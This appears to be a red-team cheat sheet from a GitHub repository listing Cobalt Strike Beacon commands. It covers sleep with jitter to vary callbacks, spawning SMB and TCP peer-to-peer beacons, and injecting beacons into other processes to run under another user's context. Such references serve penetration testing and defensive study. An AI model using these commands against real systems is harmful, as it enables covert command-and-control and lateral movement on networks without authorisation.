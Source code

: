 <p align="center">
  <img width="500" height="100" src="https://github.com/bigb0sss/RedTeam/blob/master/CobaltStrike/cs_logo.png">
</p>

## Command References


### Beacons
#### sleep
```css
sleep 60 50                                 ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```



#### SMB Beacn
```css
spawn <SMB-Listner-Name>                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject <PID> <x86|x64> <SMB-Listner-Name>   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```css
spawn <TCP-Listner-Name>                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject <PID> <x86|x64> <TCP-Listner-Name>   ; Useful when trying to spawn P2P beacon as different user context
```
